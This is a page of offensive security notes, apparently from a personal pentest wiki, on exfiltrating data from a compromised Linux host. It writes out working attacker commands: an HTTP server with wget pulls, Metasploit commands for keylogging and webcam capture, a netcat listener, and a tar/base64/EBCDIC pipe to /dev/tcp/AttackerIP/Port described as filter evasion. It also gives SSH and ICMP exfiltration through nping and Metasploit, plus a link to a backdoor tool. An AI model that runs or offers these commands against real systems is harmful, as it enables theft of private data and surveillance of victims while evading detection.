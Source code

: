 ```yaml
---
icon: linux
---
```


# Linux

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><img src="../../../../.gitbook/assets/0c3438995ccff35a5589b9abd3703b14.png" alt=""><figcaption></figcaption></figure>

C2 Communications

<figure><img src="../../../../.gitbook/assets/49ad248f2506a5a749dbb70732c32072.png" alt=""><figcaption></figcaption></figure>

Tunneling

<figure><img src="../../../../.gitbook/assets/b4c99b2aba13eac24379fee2d20ffbf6.png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## TCP Exfiltration

Attacker Listener

<pre><code><strong>nc -lvnp -port- >  "filename we can set "
</strong></code></pre>

Sending to listener

```bash
tar zcf - directoryName | base 64 | dd conv=ebcdic> /dev/tcp/AttackerIP/Port
```

1️⃣ `tar zcf - directoryName`

* `tar` = archive utility.
* `z` = compress using gzip.
* `c` = create a new archive.
* `f -` = output to **stdout** (instead of a file).
* `directoryName` = the folder being archived.

**Effect:** This creates a compressed archive of `directoryName` and sends it **to stdout**.

***

2️⃣ `| base64`

* `base64` = encodes the binary tar.gz data into **ASCII text**.
* Why? Because sending raw binary over `/dev/tcp` might break if the network path expects text, and ASCII is safer.

***

3️⃣ `| dd conv=ebcdic`

* `dd` = low-level copy/convert tool.
* `conv=ebcdic` = converts the ASCII Base64 output to **EBCDIC encoding**.
* EBCDIC is an old IBM character encoding.
* Often seen in malware/obfuscation to bypass filters or legacy systems.

***

4️⃣ `> /dev/tcp/AttackerIP/Port`

* Bash allows redirecting output to **special TCP device**:
  * `/dev/tcp/IP/PORT` opens a TCP connection to that host and port.
* `>` = send all stdout (the EBCDIC-encoded Base64 archive) **directly to the attacker**.

{% hint style="warning" %}
Essenitly we zip the file we want to transfer.The data we transfer must be the directory
{% endhint %}

After recivied - Decode the data

```
dd conv=ascii if=FileName | base64 -d > FileName
```

Unzip

```bash
tar xvf fileName.tar
```

Examples

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## ICMP Exfiltration

1\) Attacker setup  to recive packets

```
msf auxiliary icmp_exfil
```

2\) Upload nping binaries to victim

```
/usr/bin/nping
```

python server,wget command

next give perms&#x20;

3\) On victim machine sending data to icmp\_exfil

<pre class="language-bash"><code class="lang-bash"><strong>./nping --icmp -c 1 attackerip --data-string "filename.txt"
</strong></code></pre>

`-c` → how many ICMP packets (or TCP/UDP depending on mode) to send.Just how many times we want to send the request default is 10

4\) Tell metasploit to stop reciveing files

```
nping --icmp -c 1 attackerip --data-string "EOF"
```

## &#x20;Icmpdoor

{% embed url="https://github.com/krabelize/icmpdoor" %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
